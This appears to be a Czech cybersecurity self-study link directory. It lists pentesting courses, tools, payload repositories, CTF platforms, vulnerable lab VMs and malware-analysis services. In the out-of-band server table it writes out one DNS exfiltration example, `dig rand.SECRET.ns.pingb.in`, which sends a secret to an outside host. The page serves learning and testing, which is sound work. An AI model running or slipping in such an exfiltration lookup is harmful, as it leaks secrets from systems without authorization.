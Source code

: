 # Rozcestník pro samostudium kybernetické bezpečnosti

Užitečné odkazy pro oblast kybernetické bezpečnosti, zejména penetračního testování.
Jako gitbook dostupné na [chovanecadam.gitbook.io/cybersecurity/](https://chovanecadam.gitbook.io/cybersecurity/),
gitový repozitář na [github.com/chovanecadam/cybersecurity](https://github.com/chovanecadam/cybersecurity).

Kromě odkazů sem budu přidávat i vlastní poznámky, ale to nejspíš jen sporadicky[.](https://youtu.be/dQw4w9WgXcQ)

## Interaktivní tutoriály a kurzy

* [PortsWigger Web Security Academy](https://portswigger.net/web-security)
* [Hacker 101](https://www.hacker101.com/)
* [Open Security Training](https://www.opensecuritytraining.info/)
* [Cybrary](https://www.cybrary.it/)
* [Purple Academy](https://academy.picussecurity.com/home)

## OWASP

* [OWASP Top Ten Project](https://owasp.org/www-project-top-ten/)
* [OWASP Web Security Testing Guide](https://owasp.org/www-project-web-security-testing-guide/)
* [OWASP Cheat Sheet Series](https://cheatsheetseries.owasp.org/)

## Toolkit

* [Kali Linux](https://www.kali.org/), [ParrotOS Security](https://www.parrotsec.org/)
* [Kali Tools](https://tools.kali.org/tools-listing)
* [CyberChef](https://gchq.github.io/CyberChef)

## GitHub goodies

* [SecLists](https://github.com/danielmiessler/SecLists)
* [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)
* [PenetrationTesting](https://github.com/wtsxDev/Penetration-Testing)

## Cheatsheets, návody, knihy

* [HackTricks](https://book.hacktricks.xyz/)
* [HackSplaining](https://www.hacksplaining.com/)
* [Metasploit Unleashed](https://www.offensive-security.com/metasploit-unleashed/)
* [GTFOBins](https://gtfobins.github.io/)

## Videa, konference, YouTube

* [defcon.org](https://www.youtube.com/user/DEFCONConference/playlists)
* [BlackHat](https://www.youtube.com/user/BlackHatOfficialYT)
* [IppSec](https://www.youtube.com/channel/UCa6eh7gCkpPo5XXUDfygQQA)
* [VbScrub](https://www.youtube.com/channel/UCpoyhjwNIWZmsiKNKpsMAQQ)
* [SANS konference](https://www.sans.org/cyber-security-summit/archives/)
* [SANS webcasty](https://www.sans.org/webcasts/archive/2020)
* [Wild West Hacking Fest](https://www.youtube.com/channel/UCef0TWni8ghLcJphdmDBoxw/videos)
* [Bugcrowd](https://www.youtube.com/c/Bugcrowd/videos)
* [VirSecCon2020](https://www.youtube.com/watch?v=B3Udl86Zu20&t=8s)
* [InstallFest](https://www.youtube.com/channel/UCivNQFv0lsPN3kEy2wKPOhw)
* [Hack In The Box Security Conference](https://www.youtube.com/channel/UC0BJVNTIEbG8CLG-xVVWJnA)
* [Nahamsec](https://www.youtube.com/c/Nahamsec/videos)
* [HackTheBox](https://www.youtube.com/c/HackTheBox)
* [PortSwigger](https://www.youtube.com/c/PortSwiggerTV/videos)
* [John Hammond](https://www.youtube.com/channel/UCVeW9qkBjo3zosnqUbG7CFw)
* [Hacksplained](https://www.youtube.com/c/Hacksplained/videos)

## Podcasty

* [Malicious Life](https://malicious.life/)
* [Security Now](https://twit.tv/shows/security-now)
* [Risky Business](https://risky.biz/)
* [Darknet Diaries](https://darknetdiaries.com/)
* [CYBER](https://podcasts.apple.com/us/podcast/cyber/id1441708044)
* [The CyberWire Daily](https://thecyberwire.com/podcasts/daily-podcast)
* [Hacking Humans](https://thecyberwire.com/podcasts/hacking-humans)
* [MalwareTech Podcast](https://www.youtube.com/channel/UCLDnEn-TxejaDB8qm2AUhHQ)

## Offline virtuálky a sandboxy pro hackování

* [OWASP Juice Shop Project](https://owasp.org/www-project-juice-shop/)
* [Damn Vulnerable Web Application](https://github.com/ethicalhack3r/DVWA)
* [Metasploitable 2](https://metasploit.help.rapid7.com/docs/metasploitable-2)
* [Metasploitable 3](https://github.com/rapid7/metasploitable3)
* [WebGoat](https://github.com/WebGoat/WebGoat)
* [vulnhub.com](https://www.vulnhub.com/)
* [OWASP Mutillidae II](https://github.com/webpwnized/mutillidae)

## On-line cvičení a CTFs

* [Hack The Box](https://hackthebox.eu)
* [TryHackMe](https://tryhackme.com/)
* [SafeWeb.cz](https://www.safeweb.cz/)
* [HackEDU](https://www.hackedu.com/)
* [Hack This Site](https://hackthissite.org)
* [hackertest.net](https://hackertest.net)
* [root-me.org](https://root-me.org/?lang=en)
* [Secure Code Warrior](https://portal.securecodewarrior.com/)
* [ctftime.org](https://ctftime.org/)
* [thecatch.cz](https://www.thecatch.cz/)
* [attackdefense.com](https://attackdefense.com/)
* [237ctf](https://247ctf.com/)
* [CyberSecLabs](https://www.cyberseclabs.co.uk/)
* [Over The Wire](https://overthewire.org/)
* [defendtheweb.net](https://defendtheweb.net)

## Bug Bounty platformy

* [Hacker One](https://www.hackerone.com/)
* [BugCrowd](https://www.bugcrowd.com/)
* [Intigriti](https://www.intigriti.com/)

## Malware analysis

| název                                    | popis                                     |
| ---------------------------------------- | ----------------------------------------- |
| [VirusTotal](https://www.virustotal.com) | Analýza malwaru, hashe, URL, pcapu        |
| [AnyRun](https://app.any.run/)           | Interaktivní analýza malwaru              |
| [Triage](https://tria.ge/)               | Hybridní analýza malwaru                  |
| [VMRay](https://www.vmray.com)           | dynamická analýza malwaru, placená služba |
| [Hybrid Analysis](https://hybrid-analysis.com/) | dynamická analýza malwaru          |

## Temporary domény, url, emaily, OOB servery

| název                                   | popis                                                             |
| --------------------------------------- | ----------------------------------------------------------------- |
| [webhook.site](https://webhook.site/)   | asi nejlepší možnost, až 500 requestů                             |
| [pingb.in](http://pingb.in)             | data exiltration pomocí DNS lookup: `dig rand.SECRET.ns.pingb.in` |
| [RequestBin.net](http://requestbin.net) | veřejné URL, ukazuje HTTP hlavičky, POST parametry, GET parametry |

## Blogy

* [CRYPTSUS](https://cryptsus.com/blog/)
